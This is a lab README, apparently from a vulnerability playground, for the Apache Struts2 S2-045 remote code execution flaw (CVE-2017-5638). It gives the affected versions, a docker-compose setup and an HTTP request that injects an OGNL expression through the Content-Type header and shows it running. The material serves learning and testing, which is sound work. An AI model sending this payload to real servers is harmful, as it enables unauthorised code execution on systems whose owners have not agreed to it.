

# S2-045 Remote Code Execution Vulnerablity（CVE-2017-5638）

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

References:

 - http://struts.apache.org/docs/s2-045.html
 - https://nsfocusglobal.com/apache-struts2-remote-code-execution-vulnerability-s2-045/

## Setup

Execute the following command to start the Struts2 2.3.30：

```
docker-compose up -d
```

After the container is running, visit `http://your-ip:8080` that you can see an example of the upload page.

## Exploitation

Verify the vulnerability by following request:

```
POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Length: 0
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data


```

`233*233` has been successfully executed:


